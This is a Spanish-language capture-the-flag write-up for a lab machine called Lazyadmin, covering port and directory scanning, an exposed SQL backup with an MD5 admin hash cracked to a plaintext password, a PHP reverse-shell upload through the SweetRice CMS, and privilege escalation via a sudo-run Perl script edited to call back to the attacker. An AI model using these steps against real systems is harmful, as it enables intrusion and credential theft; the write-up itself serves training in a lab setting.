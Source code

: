 # Lazyadmin
---
## fase 1 reconocimiento 
 nmap -Pn -sS -sV --open -vv 10.201.96.143
--
**PORT   STATE SERVICE VERSION**
- 21/tcp open  ftp     vsftpd 3.0.5
- 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
- 80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
- Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


Hay un puerto 80 abierto, significa que una pagina web esta corriendo 


́Revisamos y solo vemos el predeterminado mensaje de Ubuntu. asi que utilizaremos *Gobuster* para la busqueda de directorios ocultos
 `gobuster dir -u http://10.201.96.143/ -w /usr/share/dirb/wordlists/common.txt`
 
vemos que hay un directorios /content. aqui encontramos la primera pista, utiliza un CMS Sweetrice, que es un sistema de gestion de paginas webs 
---
volvemos a utilizar Gobuster para buscar directorios: 
### Directorios encontrados: 
| directorio | estatus | tamaño | redireccion | 
|------------|---------|--------|-------------|
|/.hta       | (Status: 403) | [Size: 278] |
/.htaccess  |          (Status: 403) | [Size: 278] |
/.htpasswd  |          (Status: 403) | [Size: 278] |
/_themes    |          (Status: 301) |[Size: 324] | [--> http://10.201.96.143/content/_themes/] |
/as        |           (Status: 301) |  [Size: 319] | [--> http://10.201.96.143/content/as/] |
/attachment    |       (Status: 301) | [Size: 327] | [--> http://10.201.96.143/content/attachment/] |
/images       |        (Status: 301) | [Size: 323] | [--> http://10.201.96.143/content/images/] |
/inc         |         (Status: 301) | [Size: 320] | [--> http://10.201.96.143/content/inc/] |
/index.php  |          (Status: 200) | [Size: 2199]
/js        |           (Status: 301) | [Size: 319] | [--> http://10.201.96.143/content/js/] |
---
revisamos cada uno y encontramos algo interesante en /inc hay un backup sql y con el comnado `curl -O http://10.201.96.143/content/inc/mysql_backup/` lo descargamos. 
Luego utilizamos *grep* para buscar palabras claves en el archivo 

`grep INSERT mysql_bakup_20191129023059-1.5.1.sql`

**Vemos que es ilegible:** 

 *grep INSERT mysql_bakup_20191129023059-1.5.1.sql*
 (```) 14 => 'INSERT INTO %--%_options VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
  15 => 'INSERT INTO %--%_options VALUES(\'2\',\'categories\',\'\',\'1575023409\');',
  16 => 'INSERT INTO %--%_options VALUES(\'3\',\'links\',\'\',\'1575023409\');',(```)

---
### Asi que utilizaremos el siguiente comando para poder hacerlo un poco mas legible 
`sed 's/INSERT INTO/\\\nINSERT INTO/g; s/),(/),\\\n(/g; s/;/;\\\n/g' mysql_bakup_20191129023059-1.5.1.sql > formatted_sql.sqlsed`

---
Aqui encontramos credenciales, pero la contraseña esta en forma de *hash*

`s:7:\\"manager\\";\`
`s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";\`

---
Utilizaremos **hash-identifier** para saber que tipo de hash es

---
`Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))`

---
### Aqui pueden crackearlo con la herramienta que mas les guste, puede ser con *hash-cat*, *john the ripper*, *Crackstation*. Yo lo hare con Crackstation por gusto personal. 

| hash | type | result | 
|------|------|--------|
| 42f749ade7f9e195bf475f37a44cafcb| md5 | Password123 |

***easy***

# Explotacion web 

---
Anteriormente habiamos utilizado Gobuster para encontrar directorios, uno de ellos nos llevaba al panel de login de **SweetRice**. Iniciaremos sesion en el panel utilizando las credenciales que conseguimos.

---
## Subida de payload (Arbitrary File Upload)
---
1. Iniciamos sesión en el panel de administración de **SweetRice** usando las credenciales obtenidas del backup SQL.
2. Navegamos hasta la sección **Ads**, donde encontramos la funcionalidad de subir archivos.
3. Observamos que el sistema permite subir archivos con extensión `.php`. Esto representa una vulnerabilidad del tipo **Arbitrary File Upload**, ya que permite ejecutar código en el servidor.
4. Para probar la vulnerabilidad, subimos un **archivo de prueba** (por ejemplo, un script PHP que muestra “Hello World”) y verificamos que se ejecuta correctamente accediendo a la URL generada.
5. Una vez confirmada la vulnerabilidad, subimos una **reverse shell** de prueba (herramienta: *![PentestMonkey PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/tree/master)*) en un entorno de laboratorio autorizado.
6. Localizamos la URL donde se ejecuta la shell subiendo a `/content/as/` y nos aseguramos de que la shell está accesible.
7. Preparamos un **netcat** escuchando en el puerto configurado para recibir la conexión de la reverse shell.
8. Tras obtener la conexión, realizamos un tratamiento básico de TTY para movernos más cómodamente en la terminal:


`python3 -c 'import pty; pty.spawn("/bin/bash")' `

---
### Exploramos el sistema:

- Navegamos a /home/itguy/.

- Listamos archivos y carpetas ocultas con ls -la.

- Encontramos **user.txt** (primera bandera) y **backup.pl**.

- Revisamos el contenido de backup.pl y encontramos un comando que ejecuta un script ubicado en **/etc/copy/.sh**.

- Ajustamos la IP en el script para nuestra máquina y preparamos otra terminal con netcat para recibir la conexión.

## Finalmente, ejecutamos el script como sudo:

`sudo /usr/bin/perl /home/itguy/backup.pl`


# Con esto se completa la fase de explotación y obtenemos una shell con privilegios

